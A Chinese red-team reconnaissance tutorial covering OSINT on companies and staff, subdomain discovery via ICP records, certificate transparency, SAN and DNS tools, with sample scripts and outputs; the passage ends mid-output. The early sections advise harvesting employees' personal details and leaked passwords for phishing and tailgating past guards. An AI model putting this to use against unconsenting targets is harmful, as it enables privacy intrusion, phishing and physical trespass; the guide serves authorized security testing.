




# [Red Team: Recon](https://www.raingray.com/archives/845.html)

Micropoor 前辈留下的经验，渗透是将目标透漏的信息进行搜集、整合、进行利用。

> 目标资产信息搜集的程度，决定渗透过程的复杂程度。
> 
> 目标主机信息搜集的深度，决定后渗透权限持续把控。
> 
> 渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。
> 
> ——Micropoor

一个目标必须要知道它哪里最薄弱，挑出来，撕开口子拿下它，不管用什么手段，而信息收集是你能够拿下目标最重要的一部分，所有利用的前提都是收集信息，分析信息。

信息收集通常分为两种，主动信息收集（Active Information Gathering）和被动信息收集（Passive Information Gathering）。

主动信息收集需要主动与目标产生交互，比如扫目录、端口等操作，这样会在对方日志留下记录，当然也可用代理、肉鸡等相关做跳板降低风险。被动信息收集的被动是指可以在公开渠道获得的信息，不会与目标信息系统产生连接。关于被动信息收集有一个专业名词 OSINT（Open-source intelligence）。在测试中要优先使用被动信息收集，避免过早与目标进行交互，提高行动安全性。

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [1 组织](#1+%E7%BB%84%E7%BB%87)
    -   [1.1 公司信息](#1.1+%E5%85%AC%E5%8F%B8%E4%BF%A1%E6%81%AF)
    -   [1.2 员工信息](#1.2+%E5%91%98%E5%B7%A5%E4%BF%A1%E6%81%AF)
    -   [1.3 物业信息](#1.3+%E7%89%A9%E4%B8%9A%E4%BF%A1%E6%81%AF)
    -   [1.4 供应链](#1.4+%E4%BE%9B%E5%BA%94%E9%93%BE)
-   [2 域名和子域名](#2+%E5%9F%9F%E5%90%8D%E5%92%8C%E5%AD%90%E5%9F%9F%E5%90%8D)
    -   [2.1 ICP 备案](#2.1+ICP+%E5%A4%87%E6%A1%88)
    -   [2.2 CSP](#2.2+CSP)
    -   [2.3 搜索引擎](#2.3+%E6%90%9C%E7%B4%A2%E5%BC%95%E6%93%8E)
    -   [2.4 Whois](#2.4+Whois)
    -   [2.5 证书透明度日志](#2.5+%E8%AF%81%E4%B9%A6%E9%80%8F%E6%98%8E%E5%BA%A6%E6%97%A5%E5%BF%97)
    -   [2.6 SAN](#2.6+SAN)
    -   [2.7 DNS 记录](#2.7+DNS+%E8%AE%B0%E5%BD%95)
        -   [2.7.1 枚举 A 记录](#2.7.1+%E6%9E%9A%E4%B8%BE+A+%E8%AE%B0%E5%BD%95)
        -   [2.7.2 查 PTR 记录](#2.7.2+%E6%9F%A5+PTR+%E8%AE%B0%E5%BD%95)
        -   [2.7.3 查 SPF 记录](#2.7.3+%E6%9F%A5+SPF+%E8%AE%B0%E5%BD%95)
        -   [2.7.4 排列组合子域](#2.7.4+%E6%8E%92%E5%88%97%E7%BB%84%E5%90%88%E5%AD%90%E5%9F%9F)
            -   [altdns](#altdns)
            -   [dmut](#dmut)
            -   [dnsgen](#dnsgen)
        -   [2.7.5 DNS 区域传输](#2.7.5+DNS+%E5%8C%BA%E5%9F%9F%E4%BC%A0%E8%BE%93)
        -   [2.7.6 泛解析](#2.7.6+%E6%B3%9B%E8%A7%A3%E6%9E%90)
    -   [2.8 站点配置文件](#2.8+%E7%AB%99%E7%82%B9%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6)
        -   [2.8.1 crossdomain.xml](#2.8.1+crossdomain.xml)
        -   [2.8.2 security.txt](#2.8.2+security.txt)
    -   [2.9 域名搜集常用工具](#2.9+%E5%9F%9F%E5%90%8D%E6%90%9C%E9%9B%86%E5%B8%B8%E7%94%A8%E5%B7%A5%E5%85%B7)
        -   [2.9.1 subfinder](#2.9.1+subfinder)
        -   [2.9.2 amass](#2.9.2+amass)
        -   [2.9.3 assetfinder](#2.9.3+assetfinder)
        -   [2.9.4 sublist3r](#2.9.4+sublist3r)
        -   [2.9.5 OneForAll](#2.9.5+OneForAll)
        -   [2.9.6 certspotter 接口](#2.9.6+certspotter+%E6%8E%A5%E5%8F%A3)
        -   [2.9.7 Anubis-DB 接口](#2.9.7+Anubis-DB+%E6%8E%A5%E5%8F%A3)
        -   [2.9.8 Github Search SubDomain](#2.9.8+Github+Search+SubDomain)
        -   [2.9.9 Rapid7 DNS 数据](#2.9.9+Rapid7+DNS+%E6%95%B0%E6%8D%AE)
-   [3 关联资产搜寻](#3+%E5%85%B3%E8%81%94%E8%B5%84%E4%BA%A7%E6%90%9C%E5%AF%BB)
    -   [3.1 DNS 历史解析记录](#3.1+DNS+%E5%8E%86%E5%8F%B2%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95)
    -   [3.2 ASN 确定 CIDR](#3.2+ASN+%E7%A1%AE%E5%AE%9A+CIDR)
    -   [3.3 NS 记录](#3.3+NS+%E8%AE%B0%E5%BD%95)
-   [4 服务器对外开放服务发现](#4+%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%AF%B9%E5%A4%96%E5%BC%80%E6%94%BE%E6%9C%8D%E5%8A%A1%E5%8F%91%E7%8E%B0)
    -   [4.1 判定与绕过 CDN](#4.1+%E5%88%A4%E5%AE%9A%E4%B8%8E%E7%BB%95%E8%BF%87+CDN)
    -   [4.2 解析 IP](#4.2+%E8%A7%A3%E6%9E%90+IP)
    -   [4.3 端口扫描](#4.3+%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F)
        -   [4.3.1 网络空间搜索引擎](#4.3.1+%E7%BD%91%E7%BB%9C%E7%A9%BA%E9%97%B4%E6%90%9C%E7%B4%A2%E5%BC%95%E6%93%8E)
        -   [4.3.2 主动扫描](#4.3.2+%E4%B8%BB%E5%8A%A8%E6%89%AB%E6%8F%8F)
            -   [Masscan 与 Nmap](#Masscan+%E4%B8%8E+Nmap)
            -   [naabu](#naabu)
            -   [大量资产扫描方法](#%E5%A4%A7%E9%87%8F%E8%B5%84%E4%BA%A7%E6%89%AB%E6%8F%8F%E6%96%B9%E6%B3%95)
    -   [4.4 服务筛选](#4.4+%E6%9C%8D%E5%8A%A1%E7%AD%9B%E9%80%89)
-   [5 应用架构与应用侦察](#5+%E5%BA%94%E7%94%A8%E6%9E%B6%E6%9E%84%E4%B8%8E%E5%BA%94%E7%94%A8%E4%BE%A6%E5%AF%9F)
    -   [5.1 蜜罐识别](#5.1+%E8%9C%9C%E7%BD%90%E8%AF%86%E5%88%AB)
    -   [5.2 WAF 识别](#5.2+WAF+%E8%AF%86%E5%88%AB)
    -   [5.3 开发语言](#5.3+%E5%BC%80%E5%8F%91%E8%AF%AD%E8%A8%80)
    -   [5.4 系统类型](#5.4+%E7%B3%BB%E7%BB%9F%E7%B1%BB%E5%9E%8B)
    -   [5.5 指纹识别（Fingerprinting Application）](#5.5+%E6%8C%87%E7%BA%B9%E8%AF%86%E5%88%AB%EF%BC%88Fingerprinting+Application%EF%BC%89)
    -   [5.6 应用结构地图](#5.6+%E5%BA%94%E7%94%A8%E7%BB%93%E6%9E%84%E5%9C%B0%E5%9B%BE)
        -   [爬虫](#%E7%88%AC%E8%99%AB)
            -   [sitemap.xml](#sitemap.xml)
            -   [爬虫常用工具](#%E7%88%AC%E8%99%AB%E5%B8%B8%E7%94%A8%E5%B7%A5%E5%85%B7)
                -   [GoSpider](#GoSpider)
                -   [gau](#gau)
                -   [hakrawler](#hakrawler)
                -   [rad](#rad)
            -   [导入爬虫结果到 BurpSuite](#%E5%AF%BC%E5%85%A5%E7%88%AC%E8%99%AB%E7%BB%93%E6%9E%9C%E5%88%B0+BurpSuite)
        -   [JavaScript 文件](#JavaScript+%E6%96%87%E4%BB%B6)
        -   [目录扫描](#%E7%9B%AE%E5%BD%95%E6%89%AB%E6%8F%8F)
            -   [目录扫描常用工具](#%E7%9B%AE%E5%BD%95%E6%89%AB%E6%8F%8F%E5%B8%B8%E7%94%A8%E5%B7%A5%E5%85%B7)
                -   [dirsearch](#dirsearch)
                -   [ffuf](#ffuf)
                -   [feroxbuster](#feroxbuster)
        -   [API 管理文档](#API+%E7%AE%A1%E7%90%86%E6%96%87%E6%A1%A3)
    -   [Virtual Host（VHost）](#Virtual+Host%EF%BC%88VHost%EF%BC%89)
    -   [敏感信息](#%E6%95%8F%E6%84%9F%E4%BF%A1%E6%81%AF)
        -   [Wayback Machine](#Wayback+Machine)
        -   [Google Dorking](#Google+Dorking)
        -   [网盘](#%E7%BD%91%E7%9B%98)
        -   [Github](#Github)
        -   [版本控制](#%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6)
        -   [macOS .DS\_Store](#macOS+.DS_Store)
        -   [异常与调试信息](#%E5%BC%82%E5%B8%B8%E4%B8%8E%E8%B0%83%E8%AF%95%E4%BF%A1%E6%81%AF)
        -   [注释信息](#%E6%B3%A8%E9%87%8A%E4%BF%A1%E6%81%AF)
        -   [robots.txt](#robots.txt)
        -   [Directory listing](#Directory+listing)
-   [6 自动化](#6+%E8%87%AA%E5%8A%A8%E5%8C%96)
    -   [6.1 监控](#6.1+%E7%9B%91%E6%8E%A7)
        -   [6.1.1 资产入库](#6.1.1+%E8%B5%84%E4%BA%A7%E5%85%A5%E5%BA%93)
        -   [6.2.2 资产监控](#6.2.2+%E8%B5%84%E4%BA%A7%E7%9B%91%E6%8E%A7)
            -   [企业微信](#%E4%BC%81%E4%B8%9A%E5%BE%AE%E4%BF%A1)
            -   [Recon 数据浏览](#Recon+%E6%95%B0%E6%8D%AE%E6%B5%8F%E8%A7%88)
    -   [Bash 脚本](#Bash+%E8%84%9A%E6%9C%AC)
    -   [云产品⚒️](#%E4%BA%91%E4%BA%A7%E5%93%81%E2%9A%92%EF%B8%8F)
    -   [分布式扫描⚒️](#%E5%88%86%E5%B8%83%E5%BC%8F%E6%89%AB%E6%8F%8F%E2%9A%92%EF%B8%8F)
-   [7 侦察范围](#7+%E4%BE%A6%E5%AF%9F%E8%8C%83%E5%9B%B4)
-   [参考资料](#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99)

## 1 组织

### 1.1 公司信息

有些项目通常只会给出一个公司名称，或者目标关键字让你打。要针对这些内容搜集互联网资产暴露面。

-   母公司与子公司关系图
-   组织或组织架构图
-   商务关系
-   业务关系
-   地址
-   招聘平台  
    确认招聘什么岗位，能大概知道目标有用到什么技术或应用。

### 1.2 员工信息

个人信息：

-   姓名
-   手机号

工作信息：

-   邮箱
    
    ```plaintext
     获取邮件几种方式：
     1.https://hunter.io/，能够获得邮件命名规则
     2.Google 语法
    ```
    
-   花名
-   职位
-   历史泄露密码

社交媒体：

-   QQ
    -   QQ 空间/QQ 小世界
-   微信
    -   微信视频号/朋友圈
-   各种群聊
-   个人博客/微信公众号/新浪微博/Twitter/Instagram/小红书
-   抖音/快手/哔哩哔哩
-   Gitee/Github
-   脉脉/领英
-   Soul/陌陌
-   百度贴吧/虎扑/豆瓣

前面这些项通过搜索引擎及社工库收集差不多了，直接开启社工及钓鱼操作。

### 1.3 物业信息

大门开放时间。

安保人员分配情况

安保站岗、巡逻换班时间。

一般上下班和进餐时间，安保人员稍有松懈，可打扮成自有员工尾随进入办公场地。

### 1.4 供应链

对方信息系统不可能都是自己研发，说不定会有采购，可以尝试对这些系统进行利用拿下据点。

有没可能使用物业系统到达企业内网？

## 2 域名和子域名

当目标不好拿下时可以放眼望向子域名迂回拿下目标。

域名收集分为垂直和水平两种，水平是顶级域名（Top-level Domain, TLD），收集范围会关注到自家集团、子公司、分公司、收购公司这几种，垂直就是子域名（Subdomain）。

>   
> ImageSource: [https://0xpatrik.com/asset-discovery](https://0xpatrik.com/asset-discovery)

### 2.1 ICP 备案

**工信部备案查询**

[https://beian.miit.gov.cn](https://beian.miit.gov.cn/)


**站长工具备案查询**

[http://icp.chinaz.com](http://icp.chinaz.com/)


可以通过查询它的 API 实现自动化。

1.  访问 [http://icp.chinaz.com/](http://icp.chinaz.com/) 获取"主办单位名称"和"网站备案/许可证号" 数据
    
2.  向 [http://icp.chinaz.com/Home/PageData](http://icp.chinaz.com/Home/PageData) 发送POST数据 pageNo=1&pageSize=10&Kw= 其中Kw填"主办单位名称"或"网  
    站备案/许可证号"，它俩查询的结果会不一样，都去查最后汇总子域名。
    
3.  通过 jq 解析数据输出到文件。
    

**天眼查**

天眼查 --> 知识产权 -> 网站备案


### 2.2 CSP


[https://github.com/0xbharath/domains-from-csp](https://github.com/0xbharath/domains-from-csp)

curl

```shell
curl -Is -A ""  https://zhuanlan.zhihu.com | grep content-security-policy
```

怎么筛出目标域名呢？还需要验证啊，最简单的就是晒关键字，这样会错误其他内容，暂未想到其他办法。

### 2.3 搜索引擎

搜索 domian.com 不显示 www 开头的：

-   site \*.domain.com -www

搜索网段或搜到相关的域名，找到这个网段的应用：

-   ​site 1.1.1.\*

单独搜索 IP 能找到同一台服务器的多个应用，叫 IP 反查。搞不好有一个应用比较脆呢。

-   site 1.1.1.1

更多语法参见 [Google Dorking](#Google+Dorking) 小节内容。

### 2.4 Whois

Whois 包含域名所有者姓名，地址，电子邮件和电话号码。一些很早注册的域名如果没开启保护功能也能查到信息，甚至有些第三方平台很缓存历史查到的内容。不过现在注册域名，服务提供商都会提供域名隐私保护功能（隐私安全锁），往后 Whois 查询将会随时间逐渐失效。

有两个方式可以查询相关信息

1.访问第三方服务

如[站长之家](http://whois.chinaz.com/)，它优点是不仅仅可以查询域名信息，还可通过邮箱、注册人、电话反查相关资产。

2.whois 命令行。

Linux 默认自带此工具，名称就叫 whois。

### 2.5 证书透明度日志

[Certificate Transparency](https://www.certificate-transparency.org/) 是 Google 提出来的项目，主要目的是防止 CA 证书未经授权颁发证书导致劫持。

每个证书都会提交到 CT 项目中的日志中公开给大家审查，日志中会包含相关申请证书对应的域名，通过这点可以搜集资产。

-   [https://crt.sh](https://crt.sh/)
-   [https://developers.facebook.com/tools/ct，被墙](https://developers.facebook.com/tools/ct%EF%BC%8C%E8%A2%AB%E5%A2%99)
-   [https://google.com/transparencyreport/https/ct，被墙](https://google.com/transparencyreport/https/ct%EF%BC%8C%E8%A2%AB%E5%A2%99)


通过证书透明度搜索 Organization Name 组织域名，使用 grep 排除 IP 数据（没错，居然搜索结果有 IP），接着 [unfurl](https://github.com/tomnomnom/unfurl) 筛出顶级域并去重写入文件。

```shell
#/!bin/bash
# cer.sh 接口结合 Bash 脚本获取顶级域名
curl -k 'https://crt.sh/?O=$1&output=json' | jq -M '.[].common_name' | tr -d '"' | grep -Ev '([0-9]{3}\.){3}[0-9]+' | unfurl -u apexes > `date +%Y%m%d_%H%M%S`_cer_Top-Level-Domain.txt
```

```plaintext
[root@blog ~]# ./cert.sh 'Perfect%20World'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  141k    0  141k    0     0  11380      0 --:--:--  0:00:12 --:--:-- 18701
[root@blog ~]# wc -l 20230326_200650_cer_Top-Level-Domain.txt 
42 20230326_200650_cer_Top-Level-Domain.txt
[root@blog ~]# head 20230326_200650_cer_Top-Level-Domain.txt 
perfectworldgames.com
laohu.com
cert-manager.com
wmupd.com.cn
wmupd.com
wanmei.com
perfectworld.com
gearboxpublishing.com
torchlight3.com
gearboxams.com
```

得到顶级域名后，在查询 CommonName 时可以用百分号通配符对特定子域名查询。

```shell
#/!bin/bash
# cer.sh 接口结合 Bash 脚本获取子域名
curl -k 'https://crt.sh/?q=%25.'$1'&output=json' | jq '.[].name_value' | tr -d '"' | sed 's/\\n/\n/g'  | sed 's/^\*\.//g' | sort -u | uniq > `date +%Y%m%d_%H%M%S`_cer_domain.txt
```

```plaintext
[root@blog ~]# ./cert.sh baidu.com
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  924k    0  924k    0     0  13769      0 --:--:--  0:01:08 --:--:-- 13529
[root@blog ~]# wc -l 20230326_154122_cer_domain.txt
665 20230326_154122_cer_domain.txt
[root@blog ~]# head 20230326_154122_cer_domain.txt 
1212.baidu.com
1.baidu.com
8.baidu.com
ability.api.sao.baidu.com
a.blcs.waimai.baidu.com
abot.pos.baidu.com
account.mobopay.baidu.com
activitydianying.baidu.com
activity.umoney.baidu.com
adsdianying.baidu.com
```

另一个是直接连接 cer.sh Postgresql 数据库，用 SQL 查询数据。

> ```bash
> #!/bin/sh
> 
> query="SELECT ci.NAME_VALUE NAME_VALUE FROM certificate_identity ci WHERE ci.NAME_TYPE = 'dNSName' AND reverse(lower(ci.NAME_VALUE)) LIKE reverse(lower('%.$1'));"
> 
> (echo $1; echo $query | \
>  psql -t -h crt.sh -p 5432 -U guest certwatch | \
>  sed -e 's:^ *::g' -e 's:^*\.::g' -e '/^$/d' | \
>  sed -e 's:*.::g';) | sort -u
> ```
> 
> [https://github.com/hannob/tlshelpers/blob/master/getsubdomain](https://github.com/hannob/tlshelpers/blob/master/getsubdomain)

### 2.6 SAN

SAN 作用是说指定哪些域名受证书保护。

对于获取资产来讲，在 CT 日志中找不到的内容会在证书中呈现。

在 Chrome 中 SSL 证书，SAN 使用者可选名称（Subject Alternate Name）有域名存在。


Firefox 中叫主题替代名称 。

提取方式可以手动点，也有工具自动提取 [https://github.com/franccesco/getaltname](https://github.com/franccesco/getaltname)。

openssl 获取方便在 \*inux 使用脚本自动化操作。

```plaintext
gbb@raingray ~
λ openssl s_client -connect example.com:443 </dev/null 2>/dev/null | openssl x509 -noout -text | grep DNS | sed 's/^\s*//' | sed 's/DNS://g' | sed 's/,\s/\n/g' | sort | uniq -i
example.com
example.edu
example.net
example.org
www.example.com
www.example.edu
www.example.net
www.example.org
```

### 2.7 DNS 记录

一般是需要收集所有记录的，里面会记录目标的资产信息。下面通过 nslookup、dig、host 工具查找相关记录。

用工具前先大概了解下 DNS 解析过程，解析域名肯定先从本地 DNS 缓存中去找，找不到再向 DNS 客户端与 ISP 的 DNS 服务器（运营商的 DNS 服务器）去查询（叫递归查询，一来一回），本地 ISP 的 DNS 服务器查询不到会像顶级域发起查询（称作迭代查询，迭迭迭迭代代代代，查找流程长）。

常用域名记录:

-   A（address），把一个域名解析到一个IP地址上。
-   CNAME，别名记录，可以把一个域名解析到另一个域名上。
-   MX（mail exchanger），邮件交换记录（会解析到这个域邮件服务器）。
-   PTR（pointer），把 IP 解析成域名的称反向解析。
-   SOA（Start Of Authority），起始授权机构，用来指定谁是主 DNS 服务器，主服务器上通常记录最全。
-   NS（Name Server），域名服务器的地址记录，用来指定域名由哪台服务器来进行解析。
-   [SPF（Sender Policy Framework）](https://www.cloudflare.com/zh-cn/learning/dns/dns-records/dns-spf-record/)，用来检测发送邮件的域名是不是垃圾邮件，对方发过来邮件后收件的邮件服务器会先检查域名是不是在 SPF 记录中，如果是 IP 会 PTR 查找，查不到就认为是垃圾邮件。SPF 记录内容一般记录域名或是 IP。
-   [TXT](https://www.cloudflare.com/zh-cn/learning/dns/dns-records/dns-txt-record/)，就是文本，用于存放些信息用，现在 TXT 基本上平替 SPF 记录，另一个作用是验证域名归属权，通常涉及 DNS 的业务，如 CDN，会让你在 TXT 记录里放一段随机值，来验证你是不是域名管理员。

**nslookup**

Usage: `nslookup domain`

这里我们查新浪域名，server 显示我们本地使用的 DNS 地址，www.sina.com 第一查询就已经出结果了。看到www.sina.com.cn 被 cname 到 us.sina.com.cn 而 us.sina.com.cn 又被 cname 到 wwwus.sina.com，最终的wwwus.sina.com 是 66.102.251.33 与第一次查询是一致的。


我们还可以设置查询的类型（这里 type 可以用 q 代替），这里设置了 MX 就会查询邮件交换记录，还有其他选项 any 是查询所有记录、a 是主机记录、NS 域名服务器地址、PTR 反向域名查询。

当中交换记录中的名称值越小优先级越高，邮箱发邮件时优先选择值最小的，当无法发送会向后选择。


上图中 Server 是我们本地 DNS 服务器地址，也可使用其他 DNS 服务器查这个 domain。


前面是 set type 来指定查询记录，还有一种使用方法，nslookup 后面 -q 跟选项，后面是域名，server 是指定那台 DNS 来解析，不填就默认本地 DNS。

Usage：`nslookup [-option] [name | -] [server]`


**dig**

简便语法：`dig [@server] name [type]`

@server 是用哪台服务器查询，不指定会从本地设置的 DNS 地址查询（在 /etc/resolv.conf），name 是你要查的 IP 地址或域名，type 按照什么类型去查，不指定会默认用 A 记录查。

我们查这个域名可以用多个服务器来进行查询，114.114.114.114 是 google 的服务器，不同地区服务器结果可能不一样(智能 DNS)。


dig 还有一些选项：

-   \-t，指定类型
-   \-q，查询的对象域名或IP地址
-   \-x，反向解析 -x address
-   +noall，不显示所有信息
-   +answer，直接显示最终的结果


dig 也可以做反向解析


dig 可以查询 DNS 服务器 bind 软件版本(有漏洞就可能机会利用)，如果能拿下 DNS 服务器的数据库那我们就能知道某个域名的所有记录，我们用 dig 或 nslookup 都只是针对这个域名来进行查询而不是域下的主机记录，baidu.com（域名）与 www.baidu.com（www 是主机记录或叫主机名）是不一样的。下面来查询 bind 版本信息

前面 3 个是过滤就不写了，txt 是记录类型， chaos 是 bind 服务器 class 类（ANSWER SECTION 第三列就是我们的类 IN 是 Internet），VERSION.BIND 要查的信息，@ns3.dnsv4.com 是我们要查的域。

```plaintext
[root@VM-24-2-centos ~]# dig +noall +answer chaos txt VERSION.BIND @ns3.dnsv4.com
;; Warning: query response not set
;; Warning: Message parser reports malformed message packet.
VERSION.BIND.       0   CH  TXT "DNSPod AUTHORITY DNS 7.2.2203.01"
[root@VM-24-2-centos ~]# dig +noall +answer ch txt VERSION.BIND @ns3.dnsv4.com
;; Warning: query response not set
;; Warning: Message parser reports malformed message packet.
VERSION.BIND.       0   CH  TXT "DNSPod AUTHORITY DNS 7.2.2203.01"
[root@VM-24-2-centos ~]# dig +noall +answer -c CH -t TXT VERSION.BIND @ns3.dnsv4.com
;; Warning: query response not set
;; Warning: Message parser reports malformed message packet.
VERSION.BIND.       0   CH  TXT "DNSPod AUTHORITY DNS 7.2.2203.01"
```

通常DNS服务器信息隐藏也是为了降低安全风险。

DNS 追踪。

```plaintext
dig +trace www.baidu.com
```

+trace 是直接跳过本地 DNS 服务器，向顶级域直接请求（迭代查询）。



```bash
root@kali:~# cat /etc/resolv.conf
# Generated by NetworkManager
search localdomain
nameserver 8.8.8.8
nameserver 114.114.114.114
nameserver 192.168.66.1
```

这是本地配置的 DNS 服务。接下来抓包验证。

  
  


1 首先请求 8.8.8.8 根域的 NS 记录，8.8.8.8 返回了根域的域名。2 向 8.8.8.8 请求的根域的 A（IPV4）记录与 AAAA（IPV6）记录，根据响应返回相应的地址，会依次相应 13 个根域名服务器的记录。

  


获取完 13 个根域名服务器地址后，主机直接向第 13 个根域中随机选择一个进行查询，这里选的是 h.root-servers.net 的 A 记录。根域中并没找到 www.baidu.com 记录，但根域返回了 13 个 com 顶级域，主机没有直接向根域查询 com 域的 IP 而转向本地 DNS 去查，结果一样返回 A 与 AAAA 地址。

  


随机选了一个 c.gtld-servers.net 的 A 记录来查，com 域给主机返回了 baidu.com 的 ns 记录。接着返回他们的 A 与AAAA 记录

  


第 131 个包主机 NS 记录中随机选择了 dns.baidu.com 询问，132 个包响应并返回查询结果 www.baidu.com 它被 cname 到www.a.shifen.com 域名上，最终并没有解析到 www.a.shifen.com 这个域名，只看到 www.a.shifen.com 对应的 NS 记录返回了他们的 A 记录，至于为什么不向下面的 NS 记录查询，这个问题暂时还不知道。

**host**

\-v/-d 显示查询详情

```plaintext
[root@VM-24-2-centos ~]# host -v www.raingray.com
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 23056
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  A

;; ANSWER SECTION:
www.raingray.com.   600 IN  A   81.70.14.219

Received 50 bytes from 183.60.83.19#53 in 243 ms
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 30029
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  AAAA

;; AUTHORITY SECTION:
raingray.com.       600 IN  SOA dns29.hichina.com. hostmaster.hichina.com. 2022052002 3600 1200 86400 600

Received 95 bytes from 183.60.83.19#53 in 232 ms
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 23174
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  MX

